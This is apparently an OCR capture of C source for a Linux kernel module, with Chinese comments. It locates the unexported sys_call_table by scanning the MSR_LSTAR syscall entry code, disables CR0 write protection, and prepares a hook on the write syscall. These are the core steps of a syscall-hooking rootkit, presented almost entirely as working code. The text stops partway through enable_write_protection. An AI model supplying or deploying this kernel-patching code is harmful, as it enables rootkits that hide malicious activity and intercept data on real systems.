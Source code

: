 ```c
void** sys_call_table;

struct linux_dirent{
	unsigned long     d_ino;
	unsigned long     d_off;
	unsigned short    d_reclen;
	char    d_name[1];
};

void * get_lstar_sct_addr(void);
unsigned long ** get_lstar_sct(void);
void disable_write_protection(void);
void enable_write_protection(void);

asmlinkage long (*orig_write)(unsigned int fd,
		char *buf, unsigned int count);

// 找 sys_call_table
void *
get_lstar_sct_addr(void)
{
    u64 lstar;
    u64 index;
    
    rdmsrl(MSR_LSTAR, lstar);
    for (index = 0; index <= PAGE_SIZE; index += 1) {
        u8 *arr = (u8 *)lstar + index;

        if (arr[0] == 0xff && arr[1] == 0x14 && arr[2] == 0xc5) {
            return arr + 3;
        }
    }

    return NULL;
}

// 在获得sys_call_table地址时，
// 需要和0xffffffff00000000相或，否则可能引起宕机
unsigned long **
get_lstar_sct(void)
{
    // Stupid compiler doesn't want to do bitwise math on pointers
    unsigned long *lstar_sct_addr = get_lstar_sct_addr();
    if (lstar_sct_addr != NULL) {
        u64 base = 0xffffffff00000000;
        u32 code = *(u32 *)lstar_sct_addr;
        return (void *)(base | code);
    } else {
        return NULL;
    }                                         
}

// 关闭写保护
void disable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        clear_bit(16, &cr0);
        write_cr0(cr0);
}

// 打开写保护
void enable_write_protection(void)
{
```